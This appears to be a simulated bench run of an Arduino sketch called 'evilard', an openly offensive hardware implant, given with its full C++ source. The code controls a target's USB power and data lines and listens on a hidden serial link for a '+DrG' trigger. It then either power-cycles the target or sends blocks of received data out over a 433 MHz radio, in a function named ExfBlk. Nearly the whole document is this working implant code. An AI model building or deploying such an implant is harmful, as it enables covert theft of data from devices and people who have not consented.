
This sketch was run on a simulated Arduino Uno, built with avr-gcc and run on an emulated ATmega328P. On the bench: output pins drawn as LEDs (lit = HIGH), the last lines printed to the serial monitor. Inputs (shaded band) come from the test bench. No radio packets arrive unless stated; pins used as bus, display or sensor lines are not drawn.

Above: at 0.2 s.
At 2.7 s:

At 10.3 s:

10.4 s: "D" received over the second serial link
11.9 s: "r" received over the second serial link
13.4 s: "G" received over the second serial link
Timing chart, 0 to 16.4 s (numbered marks = the images above; inputs shaded):


The sketch:

evilard.ino
```cpp
// (licence header left out)
#include <AltSoftSerial.h> // install this library https://www.pjrc.com/teensy/td_libs_AltSoftSerial.html from menu tools > manage libraries

/*  if you want use the AltSoftSerial at same time with RadioHead you need modify RadioHead library http://www.airspayce.com/mikem/arduino/RadioHead/
 *  C:\Users\[USER]\Documents\Arduino\libraries\RadioHead
 *  uncomment in RH_ASK.cpp #define RH_ASK_ARDUINO_USE_TIMER2
 *  then you can import the modified version from menu sketch > include library > add .zip library
*/
#include <RH_ASK.h>

#ifdef RH_HAVE_HARDWARE_SPI
#include <SPI.h> // Not actually used but needed to compile
#endif

#define OE_PIN A5
#define S_PIN A4

#define MOSFET_PIN 4 // P-CHANNEL MOSFET

AltSoftSerial mySerial; // default RX 8, default TX 9

RH_ASK rf_driver; //default data pin 12

void EnableMosGate(void)
{
  delay(500);
  Serial.println("\r\nenable mosgate");
  digitalWrite(MOSFET_PIN, LOW);
  delay(500);
}

void DisableMosGate(void)
{
  delay(500);
  Serial.println("\r\ndisable mosgate");
  digitalWrite(MOSFET_PIN, HIGH);
  delay(500);
}

int GetSState(void)
{
  return digitalRead(S_PIN);
}

void ToggleDataLines(unsigned int nwst)
{
  ChangeDataLines(!GetSState());
}

void ChangeDataLines(unsigned int nwst)
{
  delay(500);
  digitalWrite(OE_PIN, HIGH);
  delay(500);
  digitalWrite(S_PIN, nwst);
  Serial.print("\r\nswitch USB:  S ");
  Serial.println(nwst ? "HIGH" : "LOW");
  delay(500);
  digitalWrite(OE_PIN, LOW);
  delay(500);
}

void ConnectDataLines(void)
{
  ChangeDataLines(HIGH);
}

void DisconnectDataLines(void)
{
  ChangeDataLines(LOW);
}

void InitU(void)
{
    pinMode(OE_PIN, OUTPUT);
    pinMode(S_PIN, OUTPUT);
    pinMode(MOSFET_PIN, OUTPUT);

    DisconnectDataLines();
    DisableMosGate();
}

void PowerOn(void)
{
  EnableMosGate();
  ChangeDataLines(HIGH);
}

void PowerOff(void)
{
  ChangeDataLines(LOW);
  DisableMosGate();
}

void Reboot(void)
{
  delay(10000);
  PowerOff();
  delay(10000);
  PowerOn();
}

void setup()
{
  Serial.begin(9600);
  while (!Serial){ }

  mySerial.begin(9600);

  Serial.println("\r\n-\r\n"
    "evilard (MIT LICENSE) by David Reguera Garcia aka Dreg - dreg@fr33project.org\r\n"
    "http://www.fr33project.org - https://github.com/David-Reguera-Garcia-Dreg\r\n"
    "-\r\n");

  Serial.println("waiting a few secs to start....\r\n");

  rf_driver.init();

  Serial.print("\r\nMAX MSG LENGHT: ");
  Serial.println(rf_driver.maxMessageLength());

  InitU();
  delay(3000);
  PowerOn();
}

char read_byte;

#define ReadByte(x) while (!mySerial.available()) { delay(1); } \
                    x = mySerial.read(); \
                    Serial.write(x);


uint8_t block_to_xfl[252];
uint8_t lst_blkid;
void ExfBlk()
{
  uint8_t* ptr_chnk;
  uint8_t i, j;
  uint8_t curblk[19];

  for (i = 0; i < sizeof(block_to_xfl); i++)
  {
    ReadByte(read_byte);
    block_to_xfl[i] = read_byte;
  }

  ptr_chnk = block_to_xfl;
  for (i = 0; i < 14; i++)
  {
    curblk[0] = ++lst_blkid;
    memcpy(curblk + 1, ptr_chnk, sizeof(curblk) - 1);

   for (j = 0; j < 10; j++)
    {
      if (rf_driver.send(curblk, sizeof(curblk)))
      {
        //Serial.println("\r\nSUCCESS SENDED CONNECTED_TO_TARGET_STR 433 mghz...\r\n");
        //Serial.write(ptr_chnk, 32);
        //Serial.println("");
      }
      else
      {
        Serial.println("\r\nERROR sending chunk 433 mghz...\r\n");
      }
      rf_driver.waitPacketSent();
      delay(2000);
    }

    ptr_chnk += 18;
  }
}

void loop()
{
  ReadByte(read_byte);
  if (read_byte == '+')
  {
    ReadByte(read_byte);
    if (read_byte == 'D')
    {
      ReadByte(read_byte);
      if (read_byte == 'r')
      {
        ReadByte(read_byte);
        if (read_byte == 'G')
        {
          ReadByte(read_byte);
          Serial.println("");
          switch (read_byte)
          {
            case '0':
              Reboot();
            break;

            case '1':
              ExfBlk();
            break;
          }
        }
      }
    }
  }
}
```
